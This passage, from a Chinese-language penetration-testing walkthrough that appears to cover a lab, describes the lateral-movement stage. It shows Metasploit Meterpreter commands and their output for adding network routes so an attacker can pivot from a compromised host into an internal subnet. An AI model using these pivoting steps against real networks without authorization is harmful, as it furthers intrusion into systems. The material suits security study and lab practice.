 > DC



### 横向移动

#### 设置代理

> 确保已在 MSF 中 get shell

添加路由

> 手工添加：run autoroute -s 192.168.52.0/24		#添加路由
> 		 		run autoroute -p									#查看路由
> 自动添加：run post/multi/manage/autoroute

> 查看路由表：run autoroute -p

自动添加失败：

```bash
meterpreter > run post/multi/manage/autoroute

[!] SESSION may not be compatible with this module:
[!]  * incompatible session platform: windows
[*] Running module against WEB
[*] Searching for subnets to autoroute.
[*] Did not find any new subnets to add.
meterpreter > run autoroute -p

[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]
[*] No routes have been added yet
```



手动添加

```bash
meterpreter > run autoroute -s 10.10.10.0/24

[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]
[*] Adding a route to 10.10.10.0/255.255.255.0...
[+] Added route to 10.10.10.0/255.255.255.0 via 192.168.111.80
[*] Use the -p option to list all active routes
meterpreter > run autoroute -p

[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]

Active Routing Table
====================

   Subnet             Netmask            Gateway
   ------             -------            -------
   10.10.10.0         255.255.255.0      Session 1
```
